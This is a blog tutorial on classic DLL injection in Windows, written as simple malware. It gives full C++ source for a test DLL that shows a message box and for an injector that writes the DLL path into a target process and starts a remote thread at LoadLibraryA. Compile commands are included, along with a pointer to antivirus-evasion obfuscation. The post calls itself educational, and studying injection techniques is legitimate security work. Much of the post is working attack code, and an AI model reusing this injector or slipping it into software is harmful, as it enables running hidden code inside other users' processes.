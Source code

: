```yaml
---
title:  "Classic DLL injection into the process. Simple C++ malware."
date:   2021-09-20 10:00:00 +0600
header:
  teaser: "/assets/images/7/2021-09-20_15-01.png"
categories: 
  - tutorial
tags:
  - dll injection
  - windows
  - malware
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL injection](/assets/images/7/2021-09-20_15-01.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.

In this post we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in [this](/tutorial/2021/09/18/malware-injection-1.html) post.

Firstly, let's go to prepare our DLL.       

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements. 

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.

For simplicity, we create DLL which just pop-up a message box:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](/assets/images/7/2021-09-20_17-01.png){:class="img-responsive"}

and put it in a directory of our choice (victim's machine):
![put DLL](/assets/images/7/2021-09-20_17-09.png){:class="img-responsive"}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
	HANDLE ph; // process handle
	HANDLE rt; // remote thread
	LPVOID rb; // remote buffer

	// handle to kernel32 and pass it to GetProcAddress
	HMODULE hKernel32 = GetModuleHandle("Kernel32");
	VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

	// parse process ID
	if ( atoi(argv[1]) == 0) {
		printf("PID not found :( exiting...\n");
		return -1;
	}
	printf("PID: %i", atoi(argv[1]));
	ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

	// allocate memory buffer for remote process
	rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

	// "copy" evil DLL between processes
	WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

	// our process start new thread
	rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
	CloseHandle(ph);
	return 0;
}

```

It's pretty simple as you can see. It's same as in my [code injection](/tutorial/2021/09/18/malware-injection-1.html) post. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:

![LoadLibraryA](/assets/images/7/2021-09-20_18-11.png){:class="img-responsive"}

So finally after we understood entire code of the injector, we can test it. 
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](/assets/images/7/2021-09-20_18-20.png){:class="img-responsive"}

Let's first launch a `calc.exe` instance and then execute our program:

![run injector](/assets/images/7/2021-09-20_18-25.png){:class="img-responsive"}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](/assets/images/7/2021-09-22_09-03.png){:class="img-responsive"}

In another memory section we can see:
![Process Hacker 2](/assets/images/7/2021-09-22_09-23.png){:class="img-responsive"}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation like [this](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) post.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future I will try to figure out more advanced code injection techniques.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
